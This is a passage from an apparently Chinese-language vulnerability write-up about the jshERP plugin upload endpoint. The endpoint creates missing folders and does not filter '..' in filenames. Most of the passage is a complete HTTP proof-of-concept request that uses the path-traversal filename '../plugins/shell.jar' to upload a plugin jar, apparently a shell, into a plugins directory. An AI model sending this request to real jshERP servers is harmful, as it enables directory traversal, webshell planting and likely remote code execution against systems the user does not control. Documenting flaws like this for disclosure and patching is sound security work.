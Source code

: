可以很明显看到当路径不存在时会创建文件夹，同时`path`可通过上传的文件名操作，因为没有过滤`..`的操作。

先请求创建文件夹，`poc `如下：

```poc
POST /jshERP-boot/plugin/uploadInstallPluginJar HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryR18c5m1VIoSIwPqD
Origin: http://127.0.0.1:3000
Accept-Language: zh-CN,zh;q=0.9
Referer: http://127.0.0.1:3000/system/plugin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
X-Requested-With: XMLHttpRequest
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
X-Access-Token: 4c93f37385db47ad90b8e3ec95272c8b_0
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1725067893; HMACCOUNT=A70ECDA0ACDDDBF2; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1725067922
Content-Length: 672302

------WebKitFormBoundaryR18c5m1VIoSIwPqD
Content-Disposition: form-data; name="file"; filename="../plugins/shell.jar"
Content-Type: application/octet-stream

{{file(E:\Java安全\basic-example-plugin1-2.1.1-RELEASE-jar-with-dependencies.jar)}}
------WebKitFormBoundaryR18c5m1VIoSIwPqD--

```

原本是没有`plugins`文件夹的.
